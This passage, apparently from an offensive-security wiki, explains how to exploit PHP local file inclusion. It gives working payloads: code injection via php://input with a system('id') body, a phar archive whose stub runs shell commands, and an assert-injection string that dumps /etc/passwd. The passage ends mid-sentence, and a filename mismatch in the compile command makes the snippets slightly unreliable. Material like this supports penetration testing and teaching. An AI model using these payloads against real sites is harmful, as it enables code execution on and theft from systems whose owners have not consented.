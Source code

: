 Specify your payload in the POST parameters

```text
http://example.com/index.php?page=php://input
POST DATA: <?php system('id'); ?>
```

### Wrapper phar://

A `.phar` file can be also used to execute PHP code if the web is using some function like `include` to load the file.

{% code title="create\_phar.php" %}
```python
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); system("ls"); ?>');

$phar->stopBuffering();
```
{% endcode %}

And you can compile the `phar` executing the following line:

```bash
php --define phar.readonly=0 create_path.php
```

A file called `test.phar` will be generated that you can use to abuse the LFI.

If the LFI is just reading the file and not executing the php code inside of it, for example using functions like _**file\_get\_contents\(\), fopen\(\), file\(\) or file\_exists\(\), md5\_file\(\), filemtime\(\) or filesize\(\)**_**.** You can try to abuse a **deserialization** occurring when **reading** a **file** using the **phar** protocol.  
For more information read the following post:

{% page-ref page="phar-deserialization.md" %}

### More protocols

Check more possible[ **protocols to include here**](https://www.php.net/manual/en/wrappers.php).

## LFI via PHP's 'assert'

If you encounter a difficult LFI that appears to be filtering traversal strings such as ".." and responding with something along the lines of "Hacking attempt" or "Nice try!", an 'assert' injection payload may work.

A payload like this:

```text
' and die(show_source('/etc/passwd')) or '
```

will successfully exploit PHP code for a "file" parameter that looks like this:
